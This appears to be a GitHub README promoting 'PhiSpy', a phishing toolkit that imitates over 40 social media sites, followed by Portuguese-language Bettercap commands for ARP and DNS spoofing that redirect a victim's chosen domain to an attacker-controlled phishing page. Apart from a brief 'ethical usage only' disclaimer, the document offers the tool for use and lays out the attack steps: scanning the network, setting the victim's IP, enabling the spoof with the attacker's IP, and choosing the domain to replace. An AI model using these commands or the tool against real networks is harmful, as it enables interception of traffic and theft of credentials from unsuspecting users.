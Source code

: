 # phispytool
PhiSpy is a tool created in HTML/CSS/JAVASCRIPT & PHP to phish servers created for DNS spoofing.

It's a Phishing Tool Updated w/Mail Services based and w/added out service from our servers, just to add 40+ tools of Social Media's.
The PhiSpy is designed to create a range quantity of website's to phish in only one weapon.

Disclaimer: This tool was made for ethical usage only. 
DNS changing in Wire's that aren't your's and DEFACEMENT in other websites or mail attack's of any type, can lead to prison. Please do not make any victim from this tool.
/
/

https://github.com/0ruguri0/phispytool/assets/150361492/dd29becd-55dd-4c15-a5b8-3131dc44d8c6

/
/

Comandos Do Bettercap para ARP & DNS Spoof

NET.RECON ON/OFF	                                    // #Inicialize a varredura de rede para marcar a máquina em "uso", máquina do invasor e da vítima

NEW.SHOW + set arp.spoof.targets (Ip da Vitima)       // #Visualize máquinas e defina a máquina da vítima

ARP.SPOOF ON + set dns.spoof.adress (Ip do Atacante)	// #Habilite o Spoof e defina o IP de redirecionamento do Spoof

set dns.spoof.domains (Dominio Desejado para Trocar)	// #Definir DOMÍNIO (TROCA POR PHISHING)
